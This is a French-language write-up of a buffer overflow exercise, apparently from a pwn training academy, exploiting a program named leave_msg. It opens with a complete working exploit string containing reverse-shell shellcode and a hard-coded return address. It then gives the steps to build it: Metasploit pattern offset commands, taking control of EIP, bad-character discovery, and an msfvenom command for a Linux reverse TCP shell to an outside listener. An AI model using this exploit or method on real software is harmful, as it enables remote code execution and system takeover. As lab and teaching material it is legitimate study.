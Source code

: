 # Buffer Overflows Overview [Pwn] Academy

`./leave_msg $(python -c 'print "\x55"*(2064-124-95-4)+ "\x90"*124 +"\xba\x9c\x2a\xad\x65\xda\xd2\xd9\x74\x24\xf4\x5e\x31\xc9\xb1\x12\x83\xc6\x04\x31\x56\x0e\x03\xca\x24\x4f\x90\xc3\xe3\x78\xb8\x70\x57\xd4\x55\x74\xde\x3b\x19\x1e\x2d\x3b\xc9\x87\x1d\x03\x23\xb7\x17\x05\x42\xdf\xd8\xf5\xb4\x1e\x4f\xf4\xb4\x5a\xe6\x71\x55\x2a\x9e\xd1\xc7\x19\xec\xd1\x6e\x7c\xdf\x56\x22\x16\x8e\x79\xb0\x8e\x26\xa9\x19\x2c\xde\x3c\x86\xe2\x73\xb6\xa8\xb2\x7f\x05\xaa"+"\x4c\xd6\xff\xff"')`

Ceci est le payload final du programme 

Tous d’abord il a fallut trouver la limite pour avoir une segmentation default avec metaploit 

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb - l 2100`

On l’injecte :

```bash
run $(python -c "print 'Aa0Aa1Aa2Aa3...6Cr7Cr8Cr9'")...

Program received signal SIGSEGV, Segmentation fault.
0x37714336 in ?? ()
```

Et on détermine la taille que nous allons avoir :

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37714336
[*] Exact match at offset 2060
```

Prendre le contrôle d’EIP 

```bash
run $(python -c "print '\x55' * 2060 + '\x66' * 4")
...
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

Ensuite trouvé quel sont les mauvais caractères de la même manière que le cours.

```bash
Buffer = "\x55" * (2064 - 256 - 4) = 1804
  CHARS = "\x00\x01\x02...\xfe\xff" # 256
    EIP = "\x66" * 4'
```

`\0x00\0x09\0x0a\0x20`

Créer un shellcode en prenant compte du programme et des mauvais caractères  :

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.x.x lport=4444 --bad-chars="\x00\x09\x0a\x20" --platform linux --format c
...
Payload size: 95 bytes
...
```

On pouvait déjà écrire cette formule :

```bash
Buffer = "\x55" * (2064 - 100 - 95 - 4)
      NOPs = "\x90" * 100
 Shellcode = "\xbd\x95\xf6...\x02\xce" #95
       EIP = "\x66" * 4'
```

Trouver une adresse pour le payload, j’ai choisi 0xffffd64c dans le payload on met

`“\x4c\xd6\xff\xff”`

Finalement nous nous retrouvons avec le payload tout en haut avec Les 2064 \x55\ nous  emmenant à l’EIP dont nous supprimons plusieurs partie pour écrire ensuite les NOPs que tout s’exécute simplement. Puis Notre shellcode. Et enfin notre adresse prenant l’EIP.

---

NOTE :

2064 car c’est ce que nous sort metasploit avec l’adresse `2060` + l’IEP `4` = 2064.